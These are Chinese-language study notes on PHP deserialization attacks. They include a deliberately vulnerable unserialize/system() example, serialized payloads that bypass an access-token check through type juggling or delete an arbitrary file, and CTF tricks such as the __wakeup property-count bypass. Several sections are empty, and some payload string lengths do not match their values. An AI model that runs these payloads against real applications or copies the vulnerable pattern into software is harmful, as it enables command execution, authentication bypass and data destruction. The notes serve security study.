










# WEB攻防-PHP反序列化&POP链构造&魔术方法流程&漏洞触发条件&属性修改

## 反序列化简单例子

```
<?php
class B{
    public $cmd='ipconfig';
    public function __destruct(){             //destruct()当对象被销毁时会被自动调用
        system($this->cmd);
    }
}
//函数引用，无对象创建触发魔术方法
unserialize($_GET['x']);
```

创建新php文件，利用serialize反序列化操作

```
<?php
class B
{
    public $cmd = 'ipconfig';
    public function __destruct()
    {
        system($this->cmd);
    }
}
$pop= new B();
echo serialize($pop);
```

执行文件（结果）

O:1:"B":1:{s:3:"cmd";s:8:"ipconfig";}

```
?x=O:1:"B":1:{s:3:"cmd";s:8:"ipconfig";}
```



## 黑盒例子1

```
O:4:"User":2:{s:8:"username";s:12:"administrator";s:12:"access_token";s:32:"iy8xns0nig6v9begfwcr45rjwukgkkuk";}
```

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

在 PHP 序列化数据中，`s` 表示字符串（string），`i` 表示整数（integer）。反序列化漏洞利用时，将属性值从 `s` 改为 `i`，本质上是修改了数据类型而不仅仅是数据内容。当程序使用弱类型比较（`==`）或布尔判断（`if($var)`）时，不同类型的数据可能被自动转换，从而绕过身份验证或权限校验。因此攻击者常将原本的字符串 Token 修改为整数 `1` 或布尔值 `true`，利用 PHP 的类型转换机制实现逻辑绕过。



## 黑盒例子2

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"fen8rqmopeme2vzbct2wtb21vnzgrc4d";s:11:"avatar_link";s:19:"users/carlos/morale.txt";}  //任意文件删除
```

## ctf考题

### 1



因为需要放到cookie，所以需要url编码

==把需要改的写上去，不改的删掉==





### 2








### 3

替换`:数字`为`：+数字`



### 4__wakeup

**声明的属性数量 ≠ 实际给出的属性数量**（不一致)就会跳过

